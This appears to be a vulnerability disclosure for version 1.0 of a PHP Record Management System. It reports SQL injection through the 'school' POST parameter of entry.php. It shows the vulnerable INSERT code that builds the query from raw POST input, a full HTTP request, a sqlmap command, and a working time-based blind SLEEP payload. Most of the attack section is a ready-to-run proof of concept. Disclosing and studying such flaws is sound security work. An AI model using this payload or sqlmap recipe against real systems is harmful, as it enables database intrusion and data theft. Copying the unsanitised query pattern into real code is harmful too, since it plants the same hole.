 ### VUL_AUTHOR:netmanzhang
# Record Management System - SQL Injection on (entry.php school parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
entry.php 

On this page, school parameter is vulnerable to SQL Injection Attack 
## Source code(Personnel_record_management_system/entry.php):
```
$school=$_POST['school'];
mysqli_query($conn,"insert into school (Name) values ('$school')")or die(mysqli_errno());
```
## Proof of vulnerability(Verify using the sqlmap tool):
### Request:
```
POST /Personnel_record_management_system/entry.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 117
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Origin: http://localhost
Referer: http://localhost/Personnel_record_management_system/entry.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

add_entry=&school=1
```
#### -> sqlmap -r 1.txt(above request package) --batch
### Output:
```
---
Parameter: school (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: add_entry=&school=1' AND (SELECT 9424 FROM (SELECT(SLEEP(5)))Blms) AND 'PzUA'='PzUA
---
```
